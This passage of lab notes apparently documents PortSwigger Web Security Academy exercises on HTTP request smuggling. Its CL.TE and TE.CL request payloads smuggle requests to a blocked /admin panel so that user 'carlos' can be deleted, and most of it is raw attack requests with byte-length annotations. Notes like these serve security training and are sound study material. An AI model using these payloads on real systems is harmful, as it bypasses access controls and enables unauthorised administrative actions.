 And we get: 
![[Pasted image 20240519164616.png]]

Then, by adding a Content-Length greater by 1 of our payload body and the Content-Type equal to the original headers to our request, we get this:
```text
POST / HTTP/1.1
Host: 0a8b006704b0786d814fdf7b000f00d9.web-security-academy.net
Content-Length: 115
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3                 ---> (x=) = 2 bytes, so we add one to append it to the server

x=

NOTE: No \r\n at the end in this cases!!!

```

And we access the admin panel. So now, we set the endpoint at `/admin/delete?username=carlos` and that's it.

---
### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

Test with second one and you get "Read timeout"
By doing a /admin with a normal request, we get "/admin path is blocked" 

Let's send this request:
```text
POST / HTTP/1.1
Host: 0aed003903fc339c83c00af100f500bc.web-security-academy.net
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 4    ---> (6,0,\r,\n  = 4 bytes)
\r\n
60\r\n               ---> From P to 1 = 60 in hex
POST /admin HTTP/1.1
Content-Length: 15
Content-Type: application/x-www-form-urlencoded
\r\n
x=1
0\r\n
\r\n

```
